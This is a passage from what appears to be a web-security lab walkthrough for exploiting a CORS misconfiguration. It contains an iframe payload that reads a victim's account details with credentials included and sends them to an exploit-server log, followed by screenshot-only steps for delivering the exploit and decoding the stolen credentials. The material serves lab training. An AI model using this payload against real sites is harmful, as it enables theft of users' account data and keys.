 1. The following script should be delivered to the victim:   

    ```
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','LAB.net/accountDetails',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='Exploit-Server.net/log?key='+encodeURIComponent(this.responseText);
        };
    </script>"></iframe>
    ```
  

2. Delivering the exploit:   

  ![grafik](https://user-images.githubusercontent.com/62068604/235935612-59f247fd-1ce0-4d5d-86f9-80dfe203a22e.png)
3. Accessing the log:   

  ![grafik](https://user-images.githubusercontent.com/62068604/235936163-171a6fb4-25a6-458e-bf17-67160d695f5b.png)


4. Decoding the credentials:   

  ![grafik](https://user-images.githubusercontent.com/62068604/235935435-7b2b2330-ad1b-4753-b8c0-aa4b8e6c0a2b.png)

